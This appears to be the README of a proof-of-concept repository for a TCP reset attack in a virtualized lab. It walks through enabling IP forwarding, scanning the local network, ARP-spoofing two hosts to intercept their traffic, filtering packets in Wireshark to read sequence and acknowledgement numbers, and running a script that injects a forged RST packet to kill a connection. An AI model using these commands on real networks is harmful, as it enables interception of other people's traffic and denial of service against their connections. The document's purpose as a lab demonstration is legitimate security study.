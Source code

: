 # TCP-reset-attack-PoC
A PoC that proves the TCP reset attack.
All the logical addresses, port, Sequence number and Acknowledgement number values in the following
commands are just examples. To be noticed that all the machines are each on a virtualized environment.
Steps:
1) Enable the IP forwarding on the attacker system:
echo 1 > /proc/sys/net/ipv4/ip_forward
2) We use the arp-scan command to find the IP addresses of the machines connected to the local network:
arp-scan -interface=eth0 –localnet
3) We used arpspoofing to intercept the traffic between the host A and host B using the IP addresses found in the last
step. Notice that the two hosts have the 192.168.0.40, respectively 192.168.0.39 IP addresses.
arpspoof -i eth0 -t 192.168.0.39 192.168.0.40
arpspoof -i eth0 -t 192.168.0.40 192.168.0.39
4) Next we filter the traffic to see only the packets we are interested on using Wireshark:
(ip.src==192.168.0.40&ip.dst==192.168.0.39)||(ip.src==192.168.0.39&ip.dst==192.168.0.40)
5) This way we find the application ports of both hosts, and also from the last packets we are able to get the right
Acknowledgement number and Sequence number to attack host A. Next we send a forged TCP packet with RST bit
set and the correct Sequence number and Acknowledgement number to the host A and therefore host A closes the
connection.
python script.py -S 192.168.0.40 -s 23 -D 192.168.0.39 -d 50638 -a 2620146587 -q 1393205321
